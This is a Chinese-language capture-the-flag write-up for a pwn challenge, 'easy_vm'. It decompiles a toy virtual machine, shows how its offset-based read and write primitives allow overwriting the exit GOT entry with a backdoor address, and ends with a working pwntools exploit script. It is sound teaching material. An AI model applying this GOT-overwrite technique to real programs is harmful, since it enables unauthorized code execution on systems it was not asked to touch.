








# easy_vm

## 0x00 题面

该题为虚拟机类型的 pwn 题, [题目链接](file:///D:/ctf/pwn/easy_vm_ac77fc3065048854ccc391daccecf7a9)

## 0x01 思路

拿到 PWN 题首先丢到 linux 环境中检查一下程序保护情况, 文件类型以及执行效果

- 检查文件类型

```
file pwn
```



文件是 64 位

- 检查程序保护情况

```
checksec --file=pwn
```



程序开启了 Canary, NX 保护

- 最后执行一下:

  

功能有点不明所以, 所以我们直接用 IDA Pro 反编译查看, 从`main`函数反编译后如下:



跟进`sub_4007F6`查看:



`sub_4007F6`的作用就是读取我们的输入, 返回到`main`函数后, 会对我们的输入进行逐位判断, 然后通过偏移量`dword_6011A0`对相应地址进行读写操作:

- `\x00`: 偏移量自加 1
- `\x01`: 偏移量自减 1
- `\x02`: 打印地址`dword_6011A0 + 6295712`处的字符到控制台中
- `\x03`: 从控制台中读取字符, 写入地址`dword_6011A0 + 6295712`中
- `\x04`: 退出程序
- 其他: 打印错误信息, 退出

其中`6295712`的 16 进制为`0x6010A0`, 在 got 表附件:



显然, 我们可以通过控制偏移量的大小, 对程序的地址空间进行任意读写, 于是一个思路就是修改 got 表中某些函数的地址, 达成任意地址跳转. 那么要跳转到哪个地址呢?

我们再次对程序中的各个函数进行反编译, 发现`sub_4007E5`是个后门函数, 可以直接运行 shell:



那么我们不妨用以下步骤进行 getshell:

1. 发送若干个`\x01`, 让`dword_6011A0 + 0x6010A0`的值为`got`表中`exit`函数的地址
2. 发送`\x03`, 触发写入函数
3. 发送后门地址, 让程序覆盖`got`表中的`exit`地址
4. 发送`\x04`, 触发`exit(0)`, 但是此时`exit`在`got`表中的地址被我们修改了, 所以我们此时会获取到 shell.

需要注意一个细节, 程序中向地址中写入时, 一次只能写入一个字符, 所以我们要将地址分三次写入, exp 如下:

```python
from pwn import *

offset = 0x6010a0 - 0x601058  # 需要多少偏移量才能到达exit的got表地址
backdoor_addr = 0x4007e5      # 后门地址

p = process('./pwn')
payload = '\x01'*(offset-2)   # 注意要从高地址到低地址, 分3次写入地址, 所以这里要将偏移量减2
payload += '\x03' + '\x01'    # 等待读入数据覆盖0x6010a0-offset+2
payload += '\x03' + '\x01'    # 等待读入数据覆盖0x6010a0-offset+1
payload += '\x03' + '\x01'    # 等待读入数据覆盖0x6010a0-offset
payload += '\x04'             # 触发exit()函数 getshell

p.sendlineafter('> ', payload)
p.send('\x40')                # 覆盖0x6010a0-offset+2为0x40
p.send('\x07')                # 覆盖0x6010a0-offset+1为0x07
p.send('\xe5')                # 覆盖0x6010a0-offset+1为0xe5
p.interactive()
```


